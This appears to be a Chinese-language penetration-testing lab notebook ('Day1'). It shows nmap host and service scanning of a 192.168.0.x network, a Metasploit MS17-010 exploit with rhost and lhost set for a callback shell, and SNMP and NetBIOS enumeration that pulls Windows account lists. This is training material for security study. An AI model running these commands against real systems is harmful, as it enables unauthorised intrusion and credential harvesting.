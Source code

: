 Day1
===
Host Discovery: IP (arp, icmp, 25, 80, 445, 3389)
---
    sudo nmap –n –sn –PS22,80,445,3389 192.168.0.* –oG - |grep Up | cut –d" " –f2 > iplist
    利用常見的連接埠探測機器是否有開啟這些連接埠
<img  alt="image" src="https://github.com/user-attachments/assets/20801a33-6b66-4cc0-b612-f9983fd3ae7b">

**補充**

1.nmap預設只掃1000常用的連接埠
            
2.nmap沒有權限只會進行TCP connect scan只能掃80、443，若要完整的掃描開放端口需加sudo，因要進行SYN掃描要創建數據包，root權限才能創建

    若環境無法安裝nmap可以利用迴圈
    for i in {1..254}; do (ping -c 1 192.168.0.$i | grep "bytes from" &); done
<img  alt="image" src="https://github.com/user-attachments/assets/b5b183ea-2680-48be-bdd7-b5c513864579">

    UDP Scan 可清楚看到137有回應，138可能有開但被過濾,139完全沒有回應

<img alt="image" src="https://github.com/user-attachments/assets/73263ac5-23e4-4f12-82d8-10c4e4fd1e16">

    sudo hping3 192.168.0.7 -n -S -c 3 -p 80，利用hping發送封包

<img  alt="image" src="https://github.com/user-attachments/assets/596f3f6f-44cc-4d4c-871d-62e507fe2501">

Service/OS Discovery
---
        
    sudo nmap -n -p445,3389 -sVC 192.168.0.21，發現此台主機有開啟smb v1
<img alt="image" src="https://github.com/user-attachments/assets/c6494a73-cc45-4c6b-aa4c-b005a88a254e">

    sudo nmap -n --script=smb-vuln-ms17-010.nse 192.168.0.21 使用nmap上的腳本進行scan
<img alt="image" src="https://github.com/user-attachments/assets/2950f88e-461c-4a1c-ad3d-08a04613a8cc">

Initial Access - Exploit MS17_010
---

    msfconsole -q 執行metasploit
    search ms17_010

<img alt="image" src="https://github.com/user-attachments/assets/6ad42976-a471-4f71-b7b2-4964d0f2f2f7">

    use 2
<img  alt="image" src="https://github.com/user-attachments/assets/46192082-9fcc-437f-bdfe-37eeb45a7ca2">

    show options

<img  alt="image" src="https://github.com/user-attachments/assets/9b8530f0-dfb7-4b49-9a34-1ee8a7d78329">

    set rhost 192.168.0.21
    set lhost 192.168.0.18
    run
<img  alt="image" src="https://github.com/user-attachments/assets/cc831b10-7387-4047-a2bd-33993b9dd238">

    成功打進去192.168.0.21
<img  alt="image" src="https://github.com/user-attachments/assets/d5bb80d8-953f-4724-a11a-a64047a7b9d9">

ENUM SNMP - UDP 161
---
    sudo nmap -n -p161 -sU --open 192.168.0.* -oG - | grep Up | cut -d' ' -f2 > snmp_ip.txt
<img  alt="image" src="https://github.com/user-attachments/assets/876c4d64-92e6-448b-ae50-b71cccd310d7">

    使用onesixtyone -i snmp_ips.txt public驗證是否有使用SNMP服務
<img  alt="image" src="https://github.com/user-attachments/assets/8af77a23-0854-4611-90d5-22037f5c6d19">

    snmp-check 192.168.0.20 取得該電腦的資訊並蒐集
<img  alt="image" src="https://github.com/user-attachments/assets/4887d1fb-b79a-482f-8365-158ee5bd5671">

    sudo nmap -n -p161 -sU --script snmp-win32-users 192.168.0.20 取得帳號資訊
<img alt="image" src="https://github.com/user-attachments/assets/0645da01-62b8-49f9-b53b-4b6487049b1c">

NetBIOS over TCP/IP (NetBT)
---
    NetBIOS資訊蒐集 sudo nbtscan -r 192.168.0.0/24
<img  alt="image" src="https://github.com/user-attachments/assets/b47de249-1aaf-4b3d-ae3d-5f5ec154eed5">

    net view
    net view /domain
    net view /domain:workgroup
    net view \\192.168.0.7
